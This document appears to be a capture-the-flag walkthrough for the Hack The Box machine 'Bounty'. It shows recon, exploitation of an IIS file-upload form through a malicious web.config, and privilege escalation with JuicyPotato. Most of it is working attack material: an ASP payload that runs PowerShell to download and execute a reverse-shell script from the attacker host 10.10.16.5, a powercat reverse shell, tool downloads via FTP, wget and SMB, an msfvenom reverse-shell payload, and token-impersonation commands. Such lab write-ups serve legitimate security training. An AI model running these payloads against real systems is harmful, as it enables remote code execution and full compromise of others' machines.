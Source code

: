 # Bounty Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bounty 10.10.10.93``

``80/tcp open  http    Microsoft IIS httpd 7.5``

``dirb http://10.10.10.93/ -w /usr/share/wordlists/dirb/common.txt``

``gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx,asp``

# ${{\color{purple}Initial Foothold}}\ $

### My goubster command allowed me to find the file /transfer.apsx which allows to upload on the server **:white_check_mark:**

``gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx,asp``

![1](https://user-images.githubusercontent.com/123066149/220401946-fe0162ee-df1e-464c-a47e-e15b6e1fbd5e.PNG)

# ${{\color{purple}Exploitation}}\ $ 

![image](https://user-images.githubusercontent.com/123066149/220402400-1e3f9ba5-fe23-4065-81c3-d6977054fde9.png)

### And the /UploadedFiles directory :

![image](https://user-images.githubusercontent.com/123066149/220402804-2b5b447c-7a21-4f48-85c5-606e5ccc6c37.png)

### I decided to bruteforce a valid extension for this file uploade forms :

![image](https://user-images.githubusercontent.com/123066149/220403441-8a066e40-36cd-4899-93ed-620cf87938ad.png)
![image](https://user-images.githubusercontent.com/123066149/220403611-c9f3b6cd-c12f-4c23-b15e-bc6e34d9c8b8.png)

### Load extension.txt i used hacktrycks to find the right extensions according to the type of server :

https://book.hacktricks.xyz/pentesting-web/file-upload

``ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml``

![image](https://user-images.githubusercontent.com/123066149/220445347-d01adb51-b57f-45f5-b5b2-5ba5dbe30298.png)

### For this attack is important to find the extension that the server will accept. 
### It's with the length of the answer that I find the right extension.

![2](https://user-images.githubusercontent.com/123066149/220445721-12856fa5-e575-4748-a557-29699d739e19.PNG)

### After a little google search there are poc to get to a code execution :

![image](https://user-images.githubusercontent.com/123066149/220451259-7825fcf6-ea3f-4cfa-b8d8-73b249363af7.png)

### I used this code to try a RCE

https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/

![image](https://user-images.githubusercontent.com/123066149/220451505-f2b8f383-ce2f-4ce5-be05-78bc5fd4bdc9.png)

![image](https://user-images.githubusercontent.com/123066149/220451628-36d207ce-e846-4ae6-8ec3-81c363893f38.png)

### I send the requests via burp 

![3](https://user-images.githubusercontent.com/123066149/220452408-7c694ce9-90d2-4ed8-a37e-c3764b386dc9.PNG)

![4](https://user-images.githubusercontent.com/123066149/220452416-ef897977-6cd4-4e3a-b9c0-8a9224029ef0.PNG)

### The number 15 is there so there is a code execution now I have to change the ASP code :
### I use the code of the web.aspx console and I test the code execution on my computer with the ping command :

``cat web.aspx``

![image](https://user-images.githubusercontent.com/123066149/220453123-12652682-7e90-40c2-a123-6101beb1cf30.png)

![5](https://user-images.githubusercontent.com/123066149/220457118-3740aaee-d196-4c38-8d9d-094bd45befb3.PNG)

![6](https://user-images.githubusercontent.com/123066149/220457157-ef6027ee-106f-447a-8f5b-6e0bead9e242.PNG)

![image](https://user-images.githubusercontent.com/123066149/220456517-e4e8fe26-5504-4111-acd1-d96f20dfbe39.png)

### Now I have to adapt the payload :

``<%``

``Set s = CreateObject("WScript.Shell")``

``Set cmd = s.Exec ("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')")``

``o = cmd.StdOut.Readall()``

``Response.write(o)``

``Response.write(1+2)``

``%>``



``Set cmd = s.Exec ("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')")``

### OR 

``Set cmd = s.Exec("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Nishangrev.ps1')")``


![image](https://user-images.githubusercontent.com/123066149/220458571-e8616ef9-0daf-4c41-9e7a-8ae8944032b1.png)


![image](https://user-images.githubusercontent.com/123066149/220458631-54bdde53-e959-45c0-90f3-4c6b30c47538.png)


# ${{\color{purple}Privilege Escalation}}\ $

### After a small enumeration it is possible to notice that we have rights :

``SeChangeNotifyPrivilege``

``SeImpersonatePrivilege``

![image](https://user-images.githubusercontent.com/123066149/220458967-5c686876-5ccb-4a0d-b762-ac645dfe55b2.png)


### I decide to redirect the shell to a classical cmd shell because the porwershell shell prevents me from executing binaries 
### For this I use powercat:

``IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.16.5:80/powercat.ps1');powercat -c 10.10.16.5 -p 4444 -e cmd.exe``

![image](https://user-images.githubusercontent.com/123066149/220460046-bbfdde15-e010-4355-8b1d-ea52562a1bca.png)

### I used FTP/WGET/powershell Invoke-WebRequest : but nothing worked for the download of my tools the only solution that works is the SMB share :

-----------FTP------------------
``echo open 10.10.16.5 21> ftp.txt``

``echo USER offsec>> ftp.txt``

``echo lab>> ftp.txt``

``echo bin>> ftp.txt``

``echo GET Juicy_Potato_x86.exe>> ftp.txt``

``echo bye>> ft4.txt``

``ftp -v -n -s:ftp.txt``

-----------PowerShell------------------

``powershell Invoke-WebRequest -Uri http://10.10.16.5:80/nc.exe -OutFile C:\Users\Public\Downloads\nc.exe``

-----------WGET------------------
``wget "http://10.10.16.5:80/nc.exe" -outfile "nc.exe"``

-----------SMBSERVER-IMPACKET------------------

``/usr/bin/impacket-smbserver kali .``

![image](https://user-images.githubusercontent.com/123066149/220461207-fef86ba1-5d0b-431d-86f1-add5683ec68d.png)

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4321 -f exe -o exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/220463126-0a99d74d-bd0d-4b6b-8fac-d314f06ae337.png)

### I use this command to copy the binaries to the machine :

``copy \\10.10.16.5\kali\exploit.exe``

``copy \\10.10.16.5\kali\JuicyPotato.exe``

![image](https://user-images.githubusercontent.com/123066149/220463530-b6a46bda-37d1-49ca-9a77-450d357525ed.png)

``JuicyPotato.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami``

``JuicyPotato.exe -l 1337 -c "{659cdea7-489e-11d9-a9cd-000d56965251}" -p c:\Users\merlin\Desktop\exploit.exe  -t *``

![7](https://user-images.githubusercontent.com/123066149/220464952-ac63e66e-e994-4ade-9be4-abfb27857c86.PNG)

![8](https://user-images.githubusercontent.com/123066149/220464961-8763b403-3f63-45e6-bc86-b1b801f9e542.PNG)

# ${{\color{purple}Points of Improvement}}\ $
